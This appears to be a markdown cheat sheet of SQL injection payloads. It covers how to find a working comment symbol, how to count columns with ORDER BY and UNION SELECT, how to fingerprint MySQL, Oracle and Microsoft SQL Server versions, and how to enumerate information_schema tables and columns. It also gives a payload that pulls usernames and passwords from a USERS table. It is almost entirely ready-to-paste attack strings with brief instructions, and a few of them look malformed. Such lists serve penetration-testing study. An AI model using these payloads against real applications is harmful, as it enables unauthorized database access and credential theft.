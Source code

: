 See doc: https://www.w3schools.com/php/php_mysql_select_where.asp
***
- First, you should try to identify which comment symbol is working  

		param=abc'#
		param=abc'--
		param=abc'/*comment*/
		param=abc'\\

- Verify the `Union injection` by identifying the number of columns in the current table.

		' order by 1;
		' order by 2;
		' order by 3;
		' order by 3--

		' union select NULL,NULL,NULL-- //**if we have 3 columns**//

		\\ Oracle version
		' union select NULL,NULL,NULL FROM DUAL--

	**On `Oracle` databases every `select` query should have an `EXPLICIT` table to query from.*

- (Optional) Verify which columns contains text using a payload like the following. Here we have 2 columns in the table.

		'+UNION+SELECT+NULL,'abc'--

### Basic UNION Injection

- Get database infos  
	- MySQL

			' union select user(),NULL,NULL--
			' union select database(),NULL,NULL--
			' union select version(),NULL,NULL--

	- Oracle

			' UNION SELECT NULL,banner FROM v$version--
			' UNION SELECT NULL,version FROM v$instance--

	- Mircrosoft

			' UNION SELECT null,@@version#

- Get a value in columns

		category='UNION SELECT NULL,'2a6ups',NULL--

- Get all tables / look for a particular table  

		' ORDER BY 3--
		' UNION SELECT username,password FROM USERS--

		' union select 1,table_name,null,null,5 from information_schema.tables
		' union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'tableimlookingfor'

		' union,select,null,user(),database(),null,table_name,from,information_schema.tables,LIMIT,0,50  
		' union,select,null,user(),table_name,null,null,from,information_schema.tables,where,table_schema = 0x7061726b,LIMIT,1,2  
